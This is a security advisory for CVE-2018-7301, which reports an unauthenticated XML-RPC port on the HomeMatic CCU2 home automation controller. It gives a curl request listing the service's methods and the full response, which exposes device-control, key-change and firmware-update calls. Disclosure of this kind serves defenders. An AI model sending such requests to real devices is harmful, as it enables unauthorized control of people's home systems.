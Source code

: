 ```yaml
---
layout: post
title: "CVE-2018-7301: Unauthenticated XML-RPC Service in HomeMatic CCU2"
date:   2018-02-21 13:00:00
image:
      url: /assets/article_images/2016-05-30-inspec-cis-docker/cover.jpeg
video: false
comments: true
theme_color: 302F2D

author: 'Patrick Münch'

author_image: "https://avatars0.githubusercontent.com/u/7220740?s=400"
author_link: "https://twitter.com/atomiczero111"
---
```


# Background

HomeMatic is a home automation system consisting of various components for automating several parts of a building, including different sensors and actuators. The HomeMatic CCU2 is a central control unit, which is responsible for integrating these components with each other.

From the vendor's website ([eQ-3](http://www.eq-3.de/produkte/homematic/zentralen-und-gateways.html)):

"The Homematic Central Control Unit CCU2 is responsible for numerous control, signalling and supervision functions across all areas of the Homematic system. The device includes a browser based user interface to the up the system. It can be controlled in the local network as well as via Internet. The Homematic software offers various configuration and application possibilities, so that there are no limits to creativity for installing your individual smart home."

# Issue Description

While analyzing the available ports of the CCU2, an open XML-RPC port without authentication has been identified. This can be exploited by sending arbitrary XML-RPC request to control the attached bidcos-devices.

The following request illustrates the problem:

```
curl -v -H "Content-Type:text/xml" -d "<?xml version="1.0"?><methodCall>
<methodName>system.listMethods</methodName><params/></methodCall>"
http://192.168.2.145:2001
```

The following response shows that the system successfully processed the unauthenticated request:

~~~
HTTP/1.1 200 OK
Server: XMLRPC++ 0.7
Content-Type: text/xml
Content-length: 1736

<?xml version="1.0"?>
<methodResponse>
  <params>
    <param>
      <value>
        <array>
          <data>
            <value>abortDeleteDevice</value>
            <value>activateLinkParamset</value>
            <value>addDevice</value>
            <value>addLink</value>
            <value>addVirtualDeviceInstance</value>
            <value>changeKey</value>
            <value>clearConfigCache</value>
            <value>deleteDevice</value>
            <value>deleteVolatileMetadata</value>
            <value>determineParameter</value>
            <value>exit</value>
            <value>getAllMetadata</value>
            <value>getDeviceDescription</value>
            <value>getInstallMode</value>
            <value>getKeyMismatchDevice</value>
            <value>getLinkInfo</value>
            <value>getLinkPeers</value>
            <value>getLinks</value>
            <value>getMetadata</value>
            <value>getParamset</value>
            <value>getParamsetDescription</value>
            <value>getParamsetId</value>
            <value>getServiceMessages</value>
            <value>getValue</value>
            <value>getVersion</value>
            <value>getVolatileMetadata</value>
            <value>hasVolatileMetadata</value>
            <value>init</value>
            <value>listBidcosInterfaces</value>
            <value>listDevices</value>
            <value>listReplaceableDevices</value>
            <value>listTeams</value>
            <value>logLevel</value>
            <value>ping</value>
            <value>putParamset</value>
            <value>refreshDeployedDeviceFirmwareList</value>
            <value>removeLink</value>
            <value>replaceDevice</value>
            <value>reportValueUsage</value>
            <value>restoreConfigToDevice</value>
            <value>rssiInfo</value>
            <value>setBidcosInterface</value>
            <value>setInstallMode</value>
            <value>setInterfaceClock</value>
            <value>setLinkInfo</value>
            <value>setMetadata</value>
            <value>setRFLGWInfoLED</value>
            <value>setTeam</value>
            <value>setTempKey</value>
            <value>setValue</value>
            <value>setVolatileMetadata</value>
            <value>system.listMethods</value>
            <value>system.methodHelp</value>
            <value>updateFirmware</value>
            <value>system.multicall</value>
          </data>
        </array>
      </value>
    </param>
  </params>
</methodResponse>
~~~~

# CVE

[CVE-2018-7301](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7301)

# CVSSv3 Base Score

CVSS Base Score: __5.3__

CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N

# Credit

Patrick Muench of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

Gregor Kopf of [Secfault Security GmbH](https://secfault-security.com)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2017 Secfault Security GmbH & SVA System Vertrieb Alexander GmbH and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
